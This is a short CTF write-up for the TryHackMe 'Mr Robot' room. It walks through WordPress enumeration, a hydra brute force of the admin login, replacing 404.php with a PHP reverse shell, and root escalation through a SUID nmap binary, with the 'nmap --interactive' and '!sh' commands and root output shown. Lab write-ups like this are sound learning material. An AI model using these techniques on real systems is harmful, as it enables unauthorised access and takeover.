 # Mr Robot CTF
[TryHackMe room link](https://tryhackme.com/room/mrrobot)

# Informations about the room
> Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

# Open ports
80 http 

443 https 

# Enumeration 

With directory enumeration we find a `/0/` directory containing a wordpress site

With WPScan we discover the wordpress version and any possible plugins and themes

```
WordPress version 4.3.1

WordPress theme in use: twentyfifteen
```

In the `robots.txt` file there are two files listed:

```
fsocity.dic 
key-1-of-3.txt
```

The first file is a wordlist

The second is flag number 1

# Bruteforce

After a long time hydra finds the password for user `elliot` to access the wordpress admin panel

To get a reverse shell you can modify the 404.php file with a php reverse shell

# Privilege escalation

After getting a shell you will find flag number 2 and a file with a username and a md5 password

After decoding it you will find credentials for the user `robot`

After enumeration you find a SUID with nmap

[Link to GTFOBins](https://gtfobins.github.io/gtfobins/nmap/)

```console
robot@linux:/dev/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# whoami
root
```

